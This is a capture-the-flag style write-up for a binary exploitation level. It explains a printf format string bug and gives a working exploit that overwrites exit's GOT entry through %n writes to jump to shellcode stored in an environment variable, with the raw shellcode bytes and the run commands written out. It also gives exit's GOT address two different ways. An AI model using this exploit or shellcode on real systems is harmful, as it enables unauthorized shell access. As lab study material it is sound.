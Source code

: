 # LEVEL 05

## EXPLANATIONS

### BINARY BEHAVIOR

- fgets stdin into stack buffer
- modify buffer with strtolower on buffer
- printf(buff) format string exploit

### EXPLOIT STRATEGY

- GOT of exit : 0x80497e0
- => create an env variable which contains the SHELLCODE
- => find the env variable address (we found an utilitary written in C to do this)
- => as the address is 0xffffdfc2, necessary padding for the %n exploit would be 4294959042
  - => we split it in two 2bytes parts, writing them at 0x80497e0 and 0x80497e2
    - => 0xffff => 0x80497e2
    - => 0xdfc2 => 0x80497e0
  - => We overwrite the address of exit in the GOT table {0x8048370} by the address of the SHELLCODE env variable {0xffffdfc2} with 'n' identifier of printf

### RUN COMMAND

```
export SHELLCODE=$(python -c "print('\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')")
python -c "print('\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1]  + '%57274x' + '%10\$n' + '%8253x' + '%11\$n')" > /tmp/exploit_string
cat /tmp/exploit_string - | env - PWD=$PWD SHELLCODE=$SHELLCODE /home/users/level05/level05
```
